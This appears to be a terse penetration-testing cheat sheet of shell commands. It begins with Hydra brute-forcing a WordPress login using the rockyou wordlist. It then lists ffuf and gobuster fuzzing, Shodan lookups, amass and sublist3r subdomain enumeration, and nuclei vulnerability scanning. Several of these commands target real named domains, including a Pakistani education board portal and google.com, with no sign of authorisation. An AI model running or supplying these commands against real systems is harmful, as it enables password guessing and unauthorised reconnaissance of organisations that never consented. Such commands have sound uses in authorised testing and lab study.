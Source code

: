 ```bash
# sudo hydra -l admin -P /usr/share/wordlists/metasploit/http_default_pass.txt 10.10.10.129 http-post-form "/secret/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fvtcsec%2Fsecret%2Fwp-admin%2F&testcookie=1:F=incorrect"

sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.129 http-post-form "/secret/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fvtcsec%2Fsecret%2Fwp-admin%2F&testcookie=1:F=incorrect"
```

## Fuzzing

```bash
sudo ffuf -w /usr/share/wordlists/dirb/common.txt -u <https://fccl.com.pk/FUZZ> -fc 403 -p 2
```

#### gobuster

error

```bash
 gobuster dir -u <https://portal.bisemultan.edu.pk>  -w /snap/seclists/current/Discovery/DNS/subdomains-top1million-5000.txt
```

### Shodan

```bash
sudo apt install python3-shodan

shodan init APIKEY 
shodan info 
shodan count wordpress 

shodan host ip    
shodan scan submit ip 

 
```

## Subdomain Enumeration

```bash
# Perform subdomain enumeration using amass
amass enum -brute -d website
```

```
sublist3r -d web.bisemultan.edu.pk
```

## Vul Scanner

```bash
nuclei -u <https://google.com> -t vulnerabilities 
```
